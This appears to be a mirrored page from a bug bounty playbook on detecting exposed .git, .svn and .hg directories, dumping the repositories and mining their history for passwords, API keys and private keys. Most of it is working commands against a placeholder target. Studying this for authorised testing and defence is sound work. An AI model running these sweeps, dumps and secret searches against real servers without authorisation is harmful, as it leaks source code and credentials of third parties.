

A `.git/` directory exposed on a web server is a full source code leak. The git object store contains every file ever committed, including deleted ones, across every branch. You can reconstruct the entire repository from a handful of HTTP requests. This happens constantly  -  a developer deploys by rsyncing a project directory to a server and forgets that `.git/` came along for the ride.

## Detection

### Quick Check

# The fastest detection: check for /.git/HEAD
curl -s https://target.com/.git/HEAD
 
# If exposed, you'll see something like:
# ref: refs/heads/main
# or a raw commit hash: a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2
 
# Also check config  -  reveals remote origin URL
curl -s https://target.com/.git/config
 
# Output shape:
# [core]
#   repositoryformatversion = 0
#   filemode = true
# [remote "origin"]
#   url = git@github.com:targetcorp/app.git
#   fetch = +refs/heads/*:refs/remotes/origin/*
# [branch "main"]
#   remote = origin
#   merge = refs/heads/main
# Check across all live hosts
cat live_hosts.txt | httpx -path /.git/HEAD -silent -mc 200 -o exposed_git.txt
 
# Also check common deploy paths
for path in /.git/HEAD /.git/config /.git/COMMIT_EDITMSG /.svn/entries /.hg/hgrc; do
  cat live_hosts.txt | httpx -path "$path" -silent -mc 200 | \
    awk -v p="$path" '{print $0, p}'
done

Dumping the Repository
git-dumper
git-dumper reconstructs a full git repository from an exposed web root.

pip install git-dumper
 
# Basic dump
git-dumper https://target.com/.git ./dumped_repo/
 
# git-dumper handles missing directory listings  -  it brute-forces object hashes
# following the git pack format. Even if directory listing is disabled, it works.
 
# After dumping:
cd dumped_repo/
git log --oneline -20
git branch -a
GitTools
GitTools contains three utilities: Finder, Dumper, and Extractor.

git clone https://github.com/internetwache/GitTools
cd GitTools
 
# Finder: searches a list of URLs for exposed .git
bash Finder/gitfinder.sh < ../live_hosts.txt
 
# Dumper: download all objects
bash Dumper/gitdumper.sh https://target.com/.git/ ./dump/
 
# Extractor: reconstruct files from git objects (even without full repo)
bash Extractor/extractor.sh ./dump/ ./extracted/

Mining the Dumped Repository
Once you have the files:

cd dumped_repo/
 
# Full git log including deleted files
git log --all --oneline
 
# See all files ever committed (including deleted)
git log --all --full-history -- "**" | grep "^commit" | \
  while read _ hash; do git show --name-only "$hash"; done | sort -u
 
# Search entire history for secrets
git log -p --all | grep -E "(password|secret|api_key|token|AKIA|-----BEGIN)" | head -30
 
# View a specific old version of a sensitive file
git show HEAD~5:config/database.yml
git show main~10:.env
 
# List all branches and checkout interesting ones
git branch -a
git checkout remotes/origin/dev -- .
git checkout remotes/origin/staging -- .
 
# trufflehog over the full history
trufflehog git file://$(pwd) --only-verified

Self-Hosted Git Platforms
Exposed `.git/` on web servers is one surface. Self-hosted GitLab, Gitea, and Bitbucket instances are another  -  and they often have public repositories that shouldn't be.

```
# GitLab  -  check for public projects
curl -s "https://gitlab.target.com/api/v4/projects?visibility=public&per_page=100" | \
  jq -r '.[].http_url_to_repo'
 
# Gitea  -  same idea
curl -s "https://git.target.com/api/v1/repos/search?limit=50&token=" | \
  jq -r '.data[].html_url'
 
# Unauthenticated access to "internal" projects (GitLab misconfiguration)
# GitLab has four visibility levels: private, internal, public, and "all authenticated"
# "Internal" means any logged-in GitLab user can read it  -  sometimes set by accident
curl -s "https://gitlab.target.com/api/v4/projects?visibility=internal&per_page=100" \
  -H "PRIVATE-TOKEN: YOUR_PERSONAL_ACCESS_TOKEN" | \
  jq -r '.[].http_url_to_repo'
```

## SVN and Mercurial

```
# SVN  -  check for exposed .svn directory
curl -s https://target.com/.svn/entries
# If response contains "10" or "12" (SVN format versions), the dir is exposed
 
curl -s https://target.com/.svn/wc.db
# SQLite database containing the full working copy metadata
 
# Dump with svn export
svn export https://target.com/.svn ../svn_dump/
 
# Mercurial  -  .hg directory
curl -s https://target.com/.hg/hgrc
# Contains remote URL and sometimes credentials
```

## Exposed Git Workflow



## Related

- [GitHub Dorking](https://bugbounty.info/../Recon/GitHub-Dorking)  -  public GitHub repos are a different but related surface
- [Content Discovery](https://bugbounty.info/../Recon/Content-Discovery)  -  wordlists include `.git/` checks  -  always enable
- [JavaScript Analysis](https://bugbounty.info/../Recon/JavaScript-Analysis)  -  source maps in JS are a partial equivalent of source code exposure


---

> 📖 **Source:** This page mirrors **[Griffin's Bug Bounty Playbook](https://bugbounty.info/)** (aussinfosec) — original writing and structure by Griffin, kept here for study.
